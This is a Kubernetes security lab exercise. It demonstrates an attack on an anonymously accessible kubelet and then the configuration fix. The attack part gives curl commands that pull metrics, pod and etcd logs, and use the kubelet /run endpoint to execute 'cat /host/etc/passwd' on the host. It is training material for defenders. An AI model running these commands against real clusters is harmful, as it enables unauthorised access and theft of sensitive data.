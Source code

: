 # Kubelet

## Attack

Before fixing the kubelet we will try to get sensitive data via the kubelet.

### Getting sensitive data from the kubelet

```bash
# exit the VM - for being in the Github Codespaces VM again
exit

# store the external IP of the worker node - you can get the public ip address of your training VM via the file ssh-config
cat ssh-config
export IP=<EXTERNAL-IP-OF-TRAINING-VM>
echo $IP

# getting metrics from the kubelet
curl -k https://$IP:10250/metrics

# getting log infos from the kubelet
curl -k https://$IP:10250/logs/pods/ | grep etcd

# getting logs from etcd eg `curl -k https://$IP:10250/logs/pods/kube-system_etcd-kubernetes-security_87a0e13f2b523002a1f9bd2decbc296d/etcd/0.log`
curl -k https://$IP:10250/logs/pods/<ETCD_POD>/etcd/0.log

# getting infos from the host
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```

## Avoiding the Attack

Detect the misconfiguration

```bash
# ssh to the training vm again

# take a loog at kubelets auth configurations
cat /var/lib/kubelet/config.yaml | grep -A10 authentication
```

### Fix Kubelet Configuration

Adapt the kubelet config according the following

```yaml
authentication:
  anonymous:
    enabled: true # <= change to false
```

```yaml
authorization:
  mode: AlwaysAllow # <= change to Webhook
```

```bash
# restart the kubelet
systemctl restart kubelet

# check if kubelet has started properly again
systemctl status kubelet

# exit the VM - for being in the Github Codespaces VM again
exit

# try to attack the kublet again - now you will get an `Unauthorized` response
curl -k https://$IP:10250/metrics

# ssh to the training vm again
```
